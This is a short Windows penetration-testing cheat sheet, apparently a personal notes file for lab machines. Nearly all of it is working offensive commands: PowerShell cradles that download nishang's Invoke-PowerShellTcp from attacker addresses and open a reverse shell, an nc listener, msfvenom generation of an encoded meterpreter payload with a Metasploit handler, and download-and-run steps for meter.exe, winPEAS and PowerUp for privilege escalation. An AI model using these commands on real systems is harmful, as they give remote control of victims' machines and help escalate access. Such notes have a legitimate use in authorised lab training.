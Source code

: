 # reverses 

## windows ncat binary

https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe


## nishang reverse tcp binary

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1


Use python2 -m SimpleHTTPServer 8888 : to serve

nc -lvp 4445 : listener

powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://10.10.121.196:8888/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 10.10.121.196 -Port 4445"

powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.92.19:8080/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.92.19 -Port 4444


## meterpreter 

Generate

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

Download

powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.92.19:8080/meter.exe','meter.exe')"
  
Listen

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.10.92.19 set LPORT 4445 run


Start 

Start-Process "meter.exe"
  
  

# Privilege elevation

## winPea
https://github.com/carlospolop/PEASS-ng/releases/download/20221009/winPEASany.exe


## PowerUp 

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

PS > . .\Powerup.ps1
PS > Invoke-Allchecks  



# Download file

powershell (new-object System.Net.WebClient).DownloadFile('http://www.xyz.net/file.txt','C:\tmp\file.txt')

powershell (new-object System.Net.WebClient).DownloadFile('http://10.10.121.196:8888/winPEASany.exe','C:\Users\bill\Desktop\winPEASany.exe')


Start-Process "winPEASany.exe"


